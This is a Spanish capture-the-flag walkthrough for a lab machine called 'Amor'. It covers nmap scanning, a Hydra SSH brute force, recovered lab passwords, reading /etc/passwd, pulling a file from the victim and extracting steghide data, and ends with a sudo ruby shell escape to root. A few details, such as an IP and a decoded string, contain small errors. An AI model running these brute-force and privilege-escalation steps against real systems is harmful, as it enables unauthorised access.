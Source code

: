 ## Nombre: Amor

1.ESCANEO

Lo primero, hacemos un ping a la maquina para comprobar la conexión:

`` ping -c 1 172.17.0.2``

- Después hacemos un escaneo simple con NMAP:

`` nmap -p- --open 172.17.0.2``

Al ver los puertos que estan abiertos, debemos hacer un escaneo únicamente a los puertos encontrados de una manera mas detallada:

`` nmap -p22,80 -sCV 172.17.0.2 ´´
    
MIRAMOS QUE CORRE POR EL SERVICIO HTTP EN EL NAVEGADOR

( http://17.17.0.2 )

 PARA VER EL CODIGO FUENTE DE LA PAGINA ( CTRL + U )

- Si nos fijamos en el contenido de la pagina, en texto plano podemos ver el nombre de uno de los usuarios que hay en el sistema.

  <img width="714" height="191" alt="image" src="https://github.com/user-attachments/assets/5d9a62eb-022d-4ad7-a8e8-ed91f82bf1ea" />



Por lo tanto podemos intentar conseguir las credenciales con un ataque por fuerza                    bruta ( HYDRA ):
puede tardar unos minutos :

``hydra  ssh://172.17.0.2 -l Carlota -P /usr/share/wordlists/rockyou.txt -s 22 ``

#### 2.ACCESO

 Con suerte, hemos obtenido la contraseña de el usuario el cual identificamos mediante la info que apariencia en la web. Para ello debemos de introducir el puerto por el que nos vamos a conectar, en este caso SSH, el nombre de usuario y su direccion sobre la que esta logueado:

`` ssh carlota@172.17.0.2  password: babygirl``, lo ponemos y

Tendremos acceso

EN ESTE PUNTO PODEMOS LIMPIAR LA CONSOLE, NO PERDEREMOS EL ACCESO

Una vez tengamos acceso al sistema, tenemos que escalar privilegios, para ello, debemos de identificar que usuarios tenemos disponibles en el servidor:

`` cat /etc/passwd`` Y veremos si hay algún otro usuario: llamado oscar

Hacemos una enumeración del sistema con `` sudo -l`` y ponemos pswd

```bash

script /dev/null -c bash : creamos una pseudo-terminal nueva

se utiliza para **iniciar una nueva sesión de bash** a través del comando `script`, redirigiendo la salida a `/dev/null`, es decir, **sin guardar nada**.

### descripcion del comando

- `script`: es un comando que normalmente graba toda la actividad de una terminal en un archivo (por defecto `typescript`).
    
- `/dev/null`: es un dispositivo especial que **descarta todo lo que se le envía**. Aquí se usa como archivo de salida para `script`, por lo tanto, no se guarda ningún registro.
    
- `-c bash`: le dice a `script` que ejecute el comando `bash`.

`script` crea una pseudo-terminal nueva, lo que a veces **restaura el comportamiento estándar de la terminal** si esta se ha corrompido.


en la maquina victima levantamos un **servidor web HTTP simple** usando Python 3 en el **puerto 443**. con : python3 -m http.server 443:

y en nuestra maquina: curl http://172.17.0.2:443/imagen.jpg --output imagen.jpg para extraer el archivo

```



- usamos exiftool para extraer los **metadatos ocultos** de imágenes
- luego usamos strings : para Ver texto oculto o incrustado en archivos
- y por ultimo usamos steghide : Recuperar esos archivos ocultos : steghide extract -sf  imagen.jpg

y observamos que hay un archivo llamado : secret.txt" con un codigo codificado en base64 
lo decodificamos 

```bash
echo ZXNsYWNhc2FkZXBpbnlwb24= | base64 -d : y nos da eslacascadepinypo

```

- ingremos al ssh con el usario oscar que se ve anteriormente: oscar@ip password
- usamos sudo -l para ver que comandos puede ejecutar este usuario. hay un binario /usr/bin/ruby
- ejecutamos script /dev/null -c bash
- con la herramienta gtfbins buscamos y vemos que es vulnerable a sudo ejecutamos: sudo ruby -e 'exec "/bin/sh"' y somos root
